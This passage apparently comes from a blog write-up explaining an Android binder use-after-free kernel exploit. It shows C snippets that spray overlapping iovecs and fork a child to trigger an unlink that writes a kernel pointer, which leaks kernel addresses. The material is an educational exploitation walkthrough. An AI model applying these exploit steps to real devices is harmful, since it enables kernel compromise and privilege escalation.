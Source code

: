 <img src="https://github.com/cutesmilee/cutesmilee.github.io/raw/main/images/iovec_spray.png" alt="iovec_spray" style="zoom:50%;" />

Now let's try to see what values overlap the `binder_thread` fields, and why.

```c
iovecs[IOVEC_OVERLAP_INDEX].iov_base = dummy_page;
iovecs[IOVEC_OVERLAP_INDEX].iov_len = PAGE_SIZE;
iovecs[IOVEC_OVERLAP_INDEX + 1].iov_base = (void *) 0x41414141;
iovecs[IOVEC_OVERLAP_INDEX + 1].iov_len = PAGE_SIZE;
```

We set the first `iov_base` to the `mmap()`ed page to avoid deadlocking (the address looks like an unlocked lock), we set the corrisponding `iov_len` field to PAGE_SIZE, which is also the size of the pipe, we did this so that it won't process the next iovec immediately, but we'll have to manually `read()` from the pipe again.

We initialize the other iovec with an invalid address since it'll be overwritten with a kernel address.

Now the cool part comes in, the child triggers the unlink, so a pointer to `binder_thread->wait.head` is written to `iovec[10].iov_len` (which overlapped `binder_thread->wait.task_list.next`) and to `iovec[11].iov_base` (which overlapped `binder_thread->wait.task_list.prev`).

```c
pid_t child = fork();
if (!child) {
    /* used to avoid race conditions */
    sleep(2);
    unlink_kptr_write();
    [...]
    exit(0);
}
```
